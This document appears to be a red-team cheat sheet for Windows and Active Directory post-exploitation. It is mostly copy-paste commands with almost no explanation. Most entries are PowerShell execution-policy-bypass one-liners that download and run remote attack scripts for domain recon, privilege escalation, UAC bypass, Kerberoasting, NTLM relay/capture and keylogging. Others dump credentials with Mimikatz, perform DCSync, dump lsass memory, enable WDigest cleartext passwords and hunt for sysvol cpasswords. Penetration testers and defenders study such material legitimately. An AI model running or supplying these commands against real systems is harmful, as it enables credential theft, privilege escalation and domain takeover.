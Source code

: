# Domain Recon
## ShareFinder - Look for shares on network and check access under current user context & Log to file
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"

## Import PowerView Module
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1')"

## Invoke-BloodHound for domain recon
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"

## ADRecon script to generate XLSX file of domain properties
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/sense-of-security/ADRecon/master/ADRecon.ps1')"


# Priv Esc
## PowerUp script
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”

## cPasswords in sysvol
findstr /S cpassword %logonserver%\sysvol\*.xml
findstr /S cpassword $env:logonserver\sysvol\*.xml

## Inveigh
### Start inveigh using Basic Auth - logging to file
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y -HTTPAuth Basic"

### Start inveigh in silent mode (no popups)
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y -WPADAuth anonymous"

## Invoke-HotPotato Exploit
powershell.exe -nop -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Tater/master/Tater.ps1');invoke-Tater -Command 'net localgroup Administrators user /add'"

## Bypass UAC and launch PowerShell window as admin
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"

## Invoke-Kerberoast with Hashcat Output
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat"


# Reg Keys
## Enable Wdigest
reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1 /f

## Check always install elevated
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer


# Mimikatz
## Invoke Mimikatz
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"

## Import Mimikatz Module
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"

## Perform DcSync attack
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:demodomain /user:sqladmin"'

## Invoke-MassMimikatz
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"

## Manual Procdump for offline mimikatz
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp


# Useful Scripts/Commands
## Use Windows Debug api to pause live processes
powershell.exe -nop -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/Pause-Process/master/pause-process.ps1');Pause-Process -ID 1180;UnPause-Process -ID 1180;"

## Import Powersploits invoke-keystrokes
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-Keystrokes.ps1')"

## Import Empire's Get-ClipboardContents
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ClipboardContents.ps1')"

## Import Get-TimedScreenshot
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/obscuresec/PowerShell/master/Get-TimedScreenshot')"


# Useful Links
## Nmap
https://nmap.org/dist/nmap-7.70-win32.zip

## EyeWitness Binary
https://www.christophertruncer.com/InstallMe/EyeWitness.zip

## Sys InternalTools
https://live.sysinternals.com/
https://download.sysinternals.com/files/SysinternalsSuite.zip

## List of Binaries that can be used for living off the land techniques
https://github.com/api0cradle/LOLBAS